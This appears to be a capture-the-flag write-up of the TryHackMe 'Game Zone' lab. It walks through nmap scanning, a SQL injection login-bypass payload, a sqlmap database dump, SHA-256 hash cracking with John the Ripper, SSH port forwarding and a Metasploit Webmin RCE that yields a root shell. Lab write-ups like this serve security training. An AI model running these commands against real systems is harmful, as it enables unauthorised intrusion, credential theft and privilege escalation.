









# Game Zone — TryHackMe

| Field      | Value              |
|------------|--------------------|
| Platform   | TryHackMe          |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | SQLi, sqlmap, John the Ripper, SSH, port forwarding, Webmin CVE |

---

## 1. Reconnaissance

```bash
nmap -sV -sC <IP>
```



Ports open: 80 (HTTP) and 22 (SSH). The web app presented a login form.

---

## 2. SQL Injection — Authentication Bypass

The login form was vulnerable to SQL injection. Bypassed authentication with a classic payload:

```sql
' or 1=1 -- -
```

Captured the POST request in Burp Suite and saved it to a file for sqlmap:


---

## 3. sqlmap — Database Dump

Fed the captured request to sqlmap to extract the database contents:

```bash
sqlmap -r request.txt --dump-all --batch
```



Extracted: `agent47` with hash `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

The 64-character hex string is a **SHA-256** hash.

---

## 4. Hash Cracking — John the Ripper

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 hash.txt
```



Cracked the password for `agent47`.

---

## 5. SSH Access & Internal Port Discovery

Logged in as `agent47` via SSH. Checked listening ports to discover internal services not exposed externally:

```bash
ss -tln
```



Port **10000** was listening but not accessible from outside. Set up SSH local port forwarding to tunnel it to Kali:

```bash
ssh -L 10000:localhost:10000 agent47@<IP>
```


Now `http://127.0.0.1:10000` on Kali forwarded to port 10000 on the target.

---

## 6. Webmin — RCE

Navigated to `http://127.0.0.1:10000` — a Webmin login panel appeared.



Logged in with `agent47`'s credentials (password reuse). Identified the Webmin version — vulnerable to **CVE-2012-2982**, an authenticated RCE via the `file manager` module's arbitrary command execution feature.

Used Metasploit:

```bash
use exploit/unix/webapp/webmin_show_cgi_exec
set RHOSTS 127.0.0.1
set RPORT 10000
set USERNAME agent47
set PASSWORD <cracked-password>
set SSL false
run
```







Shell received as root.


---

## Key Takeaways

**`ss -tln` reveals internal services invisible to external scanners.** After gaining a shell, always check what's listening locally — services bound to `127.0.0.1` are inaccessible from outside but reachable with SSH port forwarding.

**SSH port forwarding makes internal web apps directly accessible.** `-L <local-port>:localhost:<remote-port>` maps a local port to a service the remote machine can reach. Standard browser and tool access works as normal.

**Credential reuse between application accounts and system services is common.** The same password that unlocked SSH access also authenticated to the internal Webmin panel.

**Webmin running as root means its RCE runs as root.** Services that manage system configuration run with elevated privileges by design — exploiting them typically yields root immediately.
